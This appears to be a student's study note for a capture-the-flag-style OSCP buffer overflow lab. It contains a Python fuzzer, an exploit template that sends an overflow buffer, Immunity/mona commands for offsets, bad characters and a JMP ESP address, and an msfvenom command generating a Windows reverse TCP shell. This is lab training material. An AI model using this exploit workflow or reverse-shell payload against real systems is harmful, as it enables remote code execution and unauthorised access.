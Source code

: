 # Buffer Overflow Prep

{% embed url="https://infosecwriteups.com/tryhackme-oscp-buffer-overflow-prep-overflow-2-57c22b51a91f" %}

Install the mona script in the debugger directory and set the working folder

```
!mona config -set workingfolder c:\mona\%p
```

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

After fuzzing&#x20;

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <fuzz crash+400>
```

then put this as payload in exploit script

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```



```
!mona findmsp -distance <fuzz crash+400>
```

To confirm, update return var to "BBBB" and your EIP should be showing 42424242 (42 is hex for B)

### Find bad characters

generate charset in immunity to compare to whatever payload we send which will eentually got modified (\x00 is default considered bad)

```
!mona bytearray -b "\x00"

for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

This the new payload, run it and note the ESP (-a, this changes every time so pay attention)

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

This will show the potential bad chars, update in your payload as well as the bytearray generated by mona. Do it till you get no modified chars

Now find a jump point to return/direct the instruction yfm

```
!mona jmp -r esp -cpb "\x00"
```

Pick any address and mention that in your retn var (little endian watch out)

Payload generation can we do this wo meta check cus we can only use it once for oscp ye

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Finally we add padding

```
padding = "\x90" * 16 (\x90 is No operation byte, might be encoded so need extra space to unpack)
```
